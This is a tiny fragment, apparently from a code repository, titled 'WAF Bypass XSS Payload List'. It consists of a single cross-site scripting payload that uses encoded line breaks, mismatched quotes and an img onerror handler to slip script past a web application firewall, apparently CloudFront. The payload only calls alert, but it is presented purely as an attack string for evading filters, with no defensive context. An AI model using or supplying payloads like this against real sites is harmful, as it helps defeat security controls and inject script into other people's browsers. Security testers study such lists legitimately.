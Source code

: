 # WAF Bypass XSS Payload List
```bash
“>%0D%0A%0D%0A<x ‘=”foo”><x foo=’><img src=x onerror=javascript:alert(cloudfrontbypass)//’>
```

